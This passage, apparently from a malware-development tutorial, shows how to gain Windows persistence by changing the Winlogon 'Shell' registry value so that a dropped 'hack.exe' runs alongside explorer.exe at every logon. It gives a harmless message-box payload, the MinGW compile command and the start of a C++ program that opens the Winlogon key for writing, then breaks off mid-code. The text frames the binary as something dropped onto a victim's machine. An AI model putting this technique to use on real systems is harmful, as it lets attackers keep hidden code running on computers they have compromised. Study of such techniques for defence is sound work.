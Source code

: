 ```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE 
hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

As you can see, it's just a pop-up "meow" message as usually.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/58/2022-06-12_14-17.png){width="80%"}    

The generated `hack.exe` needs to be dropped into the victim's machine.

Changes to the `Shell` registry key that include an malicious app will result in the execution of both `explorer.exe` and `hack.exe` during Windows logon.

This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
```